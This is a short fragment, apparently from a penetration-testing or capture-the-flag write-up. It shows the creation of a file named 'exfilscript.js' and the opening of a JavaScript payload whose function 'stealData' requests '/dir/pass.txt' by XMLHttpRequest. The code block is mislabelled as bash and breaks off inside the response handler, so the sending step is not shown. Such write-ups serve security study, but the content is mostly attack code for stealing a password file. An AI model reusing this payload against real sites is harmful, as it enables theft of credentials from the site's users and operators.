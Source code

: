 ![image.png](image%209.png)

`nano exfilscript.js`

```bash
function read_body(xhr) 
{ 
	var data;

	if (!xhr.responseType || xhr.responseType === "text") 
	{
		data = xhr.responseText;
	} 
	else if (xhr.responseType === "document") 
	{
		data = xhr.responseXML;
	} 
	else if (xhr.responseType === "json") 
	{
		data = xhr.responseJSON;
	} 
	else 
	{
		data = xhr.response;
	}
	return data; 
}

function stealData()
{
	var uri = "/dir/pass.txt";

	xhr = new XMLHttpRequest();
	xhr.open("GET", uri, true);
	xhr.send(null);

	xhr.onreadystatechange = function()
	{
```